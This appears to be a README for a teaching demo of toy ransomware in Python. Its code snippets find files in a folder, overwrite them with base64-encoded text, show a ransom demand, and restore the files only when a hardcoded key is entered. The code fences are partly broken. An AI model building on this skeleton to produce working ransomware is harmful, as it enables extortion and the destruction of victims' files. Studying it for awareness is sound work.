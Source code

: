 # Ransomware

Our **ransomware** is implemented in the file `ransomware.py`. It encrypts all files in the same directory and shows a ransom message, requesting a financial amount of 0.1 USD for the user to obtain the key. Once the user provides the correct key, it decrypts those files; otherwise, they would stay encrypted.

## Demonstration of Behavior

Before the execution of **ransomware**, observe `target_file.ext`. It is a simple file located in the same directory as our **ransomware**. To see the behavior of **ransomware**, simply execute it in this folder (`./ransomware`). You should see something like this:

DEBUG:root:Encrypting file: malware_showcase/ransomware/target_file.ext
Hi, all your files have been encrypted. Please send 0.1 USD to this address
to get a decryption key: XYZ.
Number of encrypted files: 1
Please enter a key:

  
 

Now do not type anything, just observe `target_file.ext` in the second terminal. You can see that its original content `Just an ordinary text file.` was encoded to `SnVzdCBhbiBvcmRpbmFyeSB0ZXh0IGZpbGUuCg==` (for more experienced users, it is obvious that it is a simple format of **base64**). However, this **ransomware** assumes that the user does not know the basics of cryptography. Now we have two options as the user. We might guess the key, in which case the program ends, and our files stay encrypted, or we "send a payment to the bank address XYZ" and obtain the correct key:

Please enter a key: __ransomware_key

  
 

This triggers decryption of data, and as we can observe, the content of our file is restored.

Creation of basic **ransomware** is a very simple process, as described below, and anyone can do it just with basics in programming and understanding of encryption. That's why we should always be cautious when we execute any uncommon or not trusted files.

## How does it work?

- Firstly, we create our **ransomware** and give it a name. <br>
  ```python
  ransomware = Ransomware('WEBKINGRANSOMWARE')
```
Then we must choose a folder with files we want to encrypt. We call the function encrypt_files_in_folder provided by our ransomware and pass the path to the folder as an argument. This function returns the number of encrypted files. <br>
python
 
number_encrypted_files = ransomware.encrypt_files_in_folder(path)
The first thing that needs to be done is a lookup for all filenames in the same directory (function get_files_in_folder(path)). This implementation ignores README files because the ransomware would encrypt this file as well if you run it.
Then we can simply encrypt each found file. The process of encryption is described below.
python
 
```for file in files:
   logging.debug('Encrypting file: {}'.format(file))
   self.encrypt_file(file)
```
The encryption part is the most important. There are many ways of how to encrypt the files. Usually, the encryption key would take a part in encryption as well (with a much stronger encryption algorithm), but for demonstration, we can use basic encoding base64. To learn more about base64, see the guide to base64. In this case, we load the data from the file, encrypt them to base64, and then write them back to the file.
python
 
# Load the content of the file.
```with open(filename, 'r') as file:
   content = file.read()
  ```
# Encrypt the file content with base64.
encrypted_data = base64.b64encode(content.encode('utf-8'))
# Rewrite the file with the encoded content.
```with open(filename, 'w') as file:
   file.write(encrypted_data.decode('utf-8'))
```
Once all files are encrypted, we can show our ransom message to the user, requesting money for the key.
The decryption part is very similar to encryption. However, in this case, we load the key and compare it with our default key __ransomware_key. If they are equal, we simply revert the previously done encryption. If the user enters a different key, the program ends, and the files stay encrypted.
python
 
# Obtain a key from the user.
```key = self.obtain_key()
if key != self.key:
   print('Wrong key!')
   return

files = self.get_files_in_folder(path)
```
# Decrypt each file in the directory.
```for file in files:
    self.decrypt_file(key, file)
 ``` 
 

This README provides insights into the functionality and behavior of the ransomware, along with details on how it operates and the precautions users should take.